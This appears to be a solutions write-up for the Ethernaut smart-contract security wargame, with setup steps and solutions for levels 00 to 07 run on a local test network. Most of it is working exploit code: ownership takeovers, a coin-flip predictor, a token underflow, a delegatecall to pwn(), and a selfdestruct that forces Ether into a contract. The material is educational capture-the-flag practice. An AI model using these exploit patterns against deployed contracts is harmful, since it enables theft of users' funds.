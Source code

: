 # Ethernaut

## Setup

Install and run locally, since the version on https://ethernaut.openzeppelin.com is in read-only mode

```sh
# Install nvm

git clone https://github.com/OpenZeppelin/ethernaut.git
cd ethernaut

nvm install # Use the version specified in .nvmrc
nvm use
npm install --global yarn
yarn install

# Launch a local network (in a separate shell) with `yarn network`
# Import one of the private keys into MetaMask

# Verify ACTIVE_NETWORK = NETWORKS.LOCAL in client/src/constants.js
yarn deploy:contracts
# It may be necessary to explicitly change http://localhost to http://127.0.0.1 in client/src/constants.js
# (Most /etc/hosts include an ipv6 entry for localhost which can apparently cause problems)
yarn start:ethernaut
```

## 00 Hello Ethernaut

```js
await contract.info()
await contract.info1()
await contract.info2("hello")

// Can tell infoNum() returns a uint8 from contract.abi
(await contract.infoNum()).toString()

await contract.info42()
await contract.theMethodName()
await contract.method7123949()
await contract.password()
await contract.authenticate("ethernaut0")
```

## 01 Fallback

```js
(await contract.contributions(await contract.owner())).toString()
await contract.contribute({value: 1})
(await contract.contributions(player)).toString()
await sendTransaction({to: contract.address, from: player, value: 1})
await contract.owner() == player
await contract.withdraw()
await getBalance(contract.address) == 0
```

## 02 Fallout

```js
// The Fal1out (sp) function is not a constructor
await contract.owner()
await contract.Fal1out()
await contract.owner() == player
```

## 03 Coin Flip

Create a Hardhat project

```sh
mkdir 03-coin-flip
cd 03-coin-flip
npm init
npm install -D hardhat
npx hardhat # Create a JavaScript project
```

With the following contract

```sol
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip public target;

    constructor(address _target) {
        target = ICoinFlip(_target);
    }

    function attack() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```

Compile with `npx hardhat compile`

Create a deploy/execute script (as scripts/deploy.js)

```js
const hre = require("hardhat");

async function main() {
  const target = "<target contract address>";
  const contract = await hre.ethers.deployContract("CoinFlipAttack", [target]);
  await contract.waitForDeployment();
  console.log(`Contract address: ${await contract.getAddress()}`);

  for (let i=0; i<10; i++) {
    (await contract.attack()).wait();
    console.log(`Attack ${i+1} complete`);
  }
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```

Include the local network in hardhat.config.js

```js
module.exports = {
  // ...
  networks: {
    ethernaut: {
      url: "http://127.0.0.1:8545",
      chainId: 1337,
      accounts: ["<private key>"]
    }
  }
}
```

Deploy/execute the contract with `npx hardhat run scripts/deploy.js --network ethernaut`

Can verify with `await contract.consecutiveWins() == 10` in the Ethernaut Javascript console

Note that when submitting the instance in the Ethernaut interface will need to update the nonce used by MetaMask since transactions occurred using Hardhat.  Enable this for the account in Settings, Advanced, Customize transaction nonce.

## 04 Telephone

Ref: https://ethereum.stackexchange.com/a/1892

```sol
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttack {
    ITelephone public target;

    constructor(address _target) {
        target = ITelephone(_target);
    }

    function attack() external {
        target.changeOwner(tx.origin);
    }
}
```

## 05 Token

```js
(await contract.balanceOf(player)).toString()
(await contract.balanceOf(level)).toString()

// Must send to another address (ie not player) otherwise underflow effects will be negated
await contract.transfer(level, 21)

(await contract.balanceOf(player)).toString()
(await contract.balanceOf(level)).toString()
```

## 06 Delegation

In `npx hardhat console` execute `(new hre.ethers.Interface(['function pwn()'])).encodeFunctionData('pwn')` to get 0xdd365b8b

```js
await sendTransaction({to: contract.address, from: player, data: '0xdd365b8b'})
await contract.owner == player
```

## 07 Force

```sol
pragma solidity ^0.8.0;

contract ForceAttack {
    constructor(address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }
}
```

Remember to include at least one wei with the deployment, ie `const contract = await hre.ethers.deployContract("ForceAttack", [target], {value: 1});`

Verify with `await getBalance(contract.address) > 0` in the Ethernaut Javascript console

